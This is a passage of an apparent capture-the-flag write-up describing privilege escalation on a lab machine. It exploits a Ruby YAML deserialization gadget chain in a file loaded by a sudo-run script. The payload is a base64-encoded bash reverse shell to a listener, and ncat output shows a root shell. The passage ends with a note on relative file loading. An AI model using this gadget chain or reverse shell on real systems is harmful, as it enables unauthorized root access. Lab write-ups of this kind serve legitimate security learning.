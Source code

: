 ```bash
henry@precious:/tmp$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNS8xMzM3IDA+JjE= | base64 -d | bash
         method_id: :resolve
```

If we re-run the command now, `henry@precious:/tmp$ sudo /usr/bin/ruby /opt/update_dependencies.rb`, we should see a connection back to our listener:

```bash
---------- [ SETUP LISTENER ] ----------

[ x ] yes
[   ] no
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.11.189:35420.
root@precious:/tmp# cat /root/root.txt
cat /root/root.txt
<SNIP>
```

![](machine_pwned.png){: width="75%" .normal}

## Extra 

I was quite buffled as of why the `/opt/update_dependencies.rb` script was able to pick up the `dependencies.yml` file from the `/tmp` directory. The latter file is referenced **relatively** within the script:

```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
end
```
